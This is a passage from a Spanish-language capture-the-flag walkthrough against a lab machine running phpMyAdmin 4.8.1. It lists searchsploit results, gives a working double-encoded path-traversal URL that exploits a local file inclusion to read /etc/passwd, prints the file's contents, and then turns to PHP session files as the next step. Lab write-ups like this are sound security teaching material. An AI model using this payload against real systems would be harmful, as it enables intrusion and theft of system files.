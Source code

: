 De hecho en el fichero README que también es accesible, es la versión que pone :D

Por lo tanto, miramos en searchsploit si existe algún exploit para esta versión de phpMyAdmin.

```bash
---------------------------------------------------------------- ---------------------------------
 Exploit Title                                                  |  Path
---------------------------------------------------------------- ---------------------------------
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (1)     | php/webapps/44924.txt
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)     | php/webapps/44928.txt
phpMyAdmin 4.8.1 - Remote Code Execution (RCE)                  | php/webapps/50457.py
---------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Hay varios exploits, miramos por ejemplo el primero, que nos explica una manera de conseguir un LFI.

Logramos hacer un LFI con la siguiente linea en la url:

```
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../etc/passwd
```

```bash
root:x:0:0:root:/root:/bin/bash 
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin 
adm:x:3:4:adm:/var/adm:/sbin/nologin 
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin 
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin 
operator:x:11:0:operator:/root:/sbin/nologin 
games:x:12:100:games:/usr/games:/sbin/nologin 
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin 
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd
Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin 
postfix:x:89:89::/var/spool/postfix:/sbin/nologin 
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
admin:x:1000:1000::/home/admin:/bin/bash
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
```

-------------------------------------------------------------------------------

Podemos inspeccionar varios ficheros, como httpd.conf y algunos mas pero en uno de los exploits se mencionaba que podíamos intentar ver si podíamos acceder a los archivos de la sesion php.
el archivo de sesion de la php está localizado en el directorio indicado en la variable session.save_path, y por defecto este, está situado en /var/lib/php/sessions
